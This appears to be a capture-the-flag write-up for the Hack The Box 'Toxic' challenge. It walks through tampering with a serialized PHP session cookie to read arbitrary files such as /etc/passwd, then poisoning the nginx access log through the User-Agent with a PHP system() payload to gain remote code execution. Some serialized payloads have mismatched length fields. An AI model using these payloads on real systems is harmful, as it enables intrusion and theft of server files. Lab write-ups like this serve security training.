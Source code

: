 #  Toxic HTB Challenge 

__________________________________________

Intercept with burpsuite and look at the **PHPSESSID**, has a base64 encoded string.

After being decoded, it shows this: 
```
O:9:"PageModel":1:{s:4:"file";s:25:"/www/index.html";}
```

Changing the path (carefull with the size "s:25", if do not see anything try to play with it) it will show the file chosen like this:
```
O:9:"PageModel":1:{s:4:"file";s:25:"../../../../etc/passwd}
```
## Flag

With this payload we can see that the server will log the User Agent. 
`O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}`

If we inject a php script into the user agent we can achieve RCE: 
```php
<?php system('id');?>
```

So we can now look for the flag.
```php
<?php system('ls -la /static/');?>
```
Once we got the filename for the flag we go back to the PHPSESSID and look at the flag:

```
O:9:"PageModel":1:{s:4:"file";s:11:"/static/flag_xxxx";}
```